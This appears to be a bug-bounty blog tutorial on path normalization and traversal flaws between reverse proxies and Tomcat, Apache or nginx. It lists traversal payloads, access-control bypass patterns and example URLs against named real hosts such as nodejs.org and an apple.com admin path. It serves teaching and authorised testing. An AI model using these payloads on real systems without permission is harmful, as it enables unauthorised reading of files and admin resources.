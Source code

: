 ```yaml
---
title: Understanding and Exploiting Path Normalization Vulnerabilities
description: bugbounty,hacking
author: samidunimsara
date: 2024-01-12 11:33:00 +0800
categories: [hackingweb, web]
tags: [web,bugbounty]

---
```



# Path Normalization Vulnerability

## Overview
The path normalization vulnerability arises from a misconfiguration between the reverse proxy and the Web Application Server (WAS). This vulnerability occurs when an incorrect path in the proxy settings, such as those set by nginx, leads to unintended behavior. For instance, an attacker might insert the string `..;/` into a URL path. If passed to Tomcat, it interprets `..;/` as `../`, allowing the attacker to access directories outside the intended path.

### Example:
Traversing back multiple directories to observe the responses can reveal vulnerabilities. For a particular host, traversing back three directories resulted in a `400 Bad Request`, indicating the traversal went too far down the internal web root.

- Example URL:
  ```
  example.com/de/..;/..;/..;/
  ```

Forward traversal resulted in a `404` page.

- Example URL:
  ```
  https://www.example.com/de/..;/..;/FUZZ
  ```

## Tips & Techniques

### 1. Identifying Root Traversal
When it's challenging to leak the backend URL, a `400 HTTP Status` code can indicate that traversal has passed the root directory.

- Example:
  ```
  host[.]com/test/../../ = 400
  ```

### 2. Path Manipulation
Attempts to access sensitive directories may bypass restrictions:

- Example:
  ```
  host.com/admin     403
  host.com/%2e/admin 200
  ```

Browsing the contents of `/home/dist/.bashrc` could be achieved by manipulating paths:

- Example:
  ```
  https://nodejs.org/metrics../.bashrc
  ```

Accessing protected resources:
- Example:
  ```
  admin/path/test.html         403 
  admin/path/for/../test.html  200 OK
  ```

### 3. Exploiting Misconfigurations
Path normalization issues can be exploited to access unauthorized resources.

- Test Case:
  ```
  https://exampledotcom/path/..;/api/9/nginx
  ```

### 4. Apache & Tomcat Considerations
When dealing with Apache or Tomcat, specific configurations or default installations may introduce vulnerabilities:

- Example:
  ```
  /..;/examples/servlets/servlet/SessionExample
  ```

Accessing a resource after normalization:
- Example:
  ```
  https://odyssey-lift-off-rest-api.herokuapp.com/author/1/../../anotherresouce/2
  ```

### 5. Recon Tips
- Start recon with Chrome DevTools, filtering for Fetch/XHR and Docs to reduce noise.
- Use tools like `ffuf` to identify path traversal vulnerabilities with various payloads.

## Common Payloads for Path Traversal:
```text
../
..%2f
..%252f
%2e%2e%2f
%252e%252e%252f
..;a=a/
..%01/
..%0a/
..%0b/;.css
..//
...//
.../
..;/
..\
...\
..%5c
..%255c
..%255c\
%2e%2e%5c
%252e%252e%255c
..\/
../\
./
...
```

## Advanced Exploits
### 1. Bypassing Access Control
An advanced example of access control bypass using Apache colon path traversal:
```text
https://rampadmin.apple.com/admin/healthcheck/..;/data/existing_UAT_DS_App_Ids.json → 200 OK
```

### 2. CDN and Backend Normalization Differences
An issue where Cloudflare’s CDN normalized the path differently than the backend server, leading to unintended access:
```text
/share/%2F..%2F/api/auth/session
```

### 3. Nginx Off-by-Slash
Nginx configuration mistakes can allow access to restricted files:
```text
http://127.0.0.1/static../settings.py
```

### 4. Recon Example
Finding interesting API endpoints during recon with tools like `ffuf`:
```text
/experience/..;/
/experience/../
/experience/..%2f
/experience/%2e%2e%2f
```

## References:
- [Breaking Parser Logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [Huntr Tutorial](https://huntr.com/get-started/tutorial)
- [Avatao Module](https://next.avatao.com/modules/custom)
```
